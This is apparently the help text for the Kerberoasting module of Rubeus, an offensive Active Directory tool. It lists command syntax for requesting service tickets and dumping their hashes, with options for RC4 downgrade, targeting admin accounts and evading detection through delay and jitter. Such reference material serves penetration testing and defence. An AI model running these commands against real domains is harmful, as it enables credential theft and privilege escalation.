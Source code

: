 
     Roasting:

        Perform Kerberoasting:
            Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting, outputting hashes to a file:
            Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

        Perform Kerberoasting, outputting hashes in the file output format, but to the console:
            Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting with an existing TGT:
            Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT using an enterprise principal:
            Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
            Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

        Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
            Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

        Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
            Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

        List statistics about found Kerberoastable accounts without actually sending ticket requests:
            Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
            Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
            Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

        Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
            Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

        Perform AES Kerberoasting:
            Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]

        Perform Kerberoasting using an account without pre-auth by sending AS-REQ's:
            Rubeus.exe kerberoast </spn:""blah/blah"" | /spns:C:\temp\spns.txt> /nopreauth:USER /domain:DOMAIN [/dc:DOMAIN_CONTROLLER] [/nowrap]
